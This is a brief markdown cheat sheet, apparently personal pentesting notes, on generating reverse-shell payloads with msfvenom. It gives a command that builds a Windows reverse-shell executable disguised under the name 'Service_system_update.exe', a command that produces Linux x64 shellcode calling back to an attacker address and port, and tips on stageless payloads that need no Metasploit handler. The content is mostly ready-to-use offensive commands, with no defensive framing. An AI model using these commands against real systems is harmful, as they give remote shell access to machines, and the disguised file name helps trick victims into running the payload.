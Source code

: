 # msfvenom

> Windows reverse shell; defaults to x86 i.e. 32bit

```
msfvenom -p windows/shell_reverse_tcp lhost=<MY_IP> lport=9001 -f exe > Service_system_update.exe
```

- avoid the meterpreter payloads, they require Metasploit handler to catch them
- note the _ separating the terms; this indicates STAGELESS payloads i.e., no Metasploit needed to catch


> creating shellcode for a Linux target

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp -b "\x00" -f c LHOST=10.10.10.10 LPORT=8000
```